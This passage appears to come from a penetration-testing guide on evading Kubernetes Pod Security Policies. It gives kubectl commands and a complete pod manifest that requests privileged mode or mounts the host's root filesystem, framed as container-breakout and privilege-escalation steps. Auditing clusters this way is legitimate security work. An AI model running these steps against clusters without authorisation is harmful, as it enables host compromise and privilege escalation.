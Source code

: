 ```bash
kubectl apply -f privileged-pod.yaml -n <namespace_name>
```

**Explanation:** This creates a pod with the `privileged: true` security context.  This pod configuration directly requests a high level of privilege. Replace `<namespace_name>` with the target namespace. `kubectl apply` is used here to allow for updates in case of later exploitation attempts, where previous attempts failed.

**Expected Output:**

*   **If successful (PSP Evasion):**  The pod will be created and enter the `Running` state.
*   **If blocked:** An error message indicating that the pod violates the PSP, specifically due to `privileged: true`.

**Why:** This tests the most basic restriction.  If it succeeds, the PSP is severely misconfigured.

**Step 4: Evasion via HostPath Mounts**

If the PSP restricts `privileged: true`, try to mount host paths into the container.  This allows access to the underlying node's filesystem, which can be used to escalate privileges.

```yaml
# hostpath-pod.yaml
apiVersion: v1
kind: Pod
metadata:
  name: hostpath-pod
spec:
  containers:
  - name: hostpath-container
    image: busybox:latest
    volumeMounts:
    - name: host-root
      mountPath: /host-root
    command: ["sleep", "3600"]
  volumes:
  - name: host-root
    hostPath:
      path: /
```

```bash
kubectl apply -f hostpath-pod.yaml -n <namespace_name>
```

**Explanation:** This creates a pod that mounts the root directory of the host node (`/`) into the container at `/host-root`. This gives the container access to the entire host filesystem.

**Expected Output:**

*   **If successful (PSP Evasion):** The pod will be created and enter the `Running` state.
*   **If blocked:** An error message indicating that the pod violates the PSP, specifically due to the `hostPath` volume.

**Why:** Mounting `hostPath` is a common technique for container breakouts.  If the PSP doesn't properly restrict it, it's a critical vulnerability.
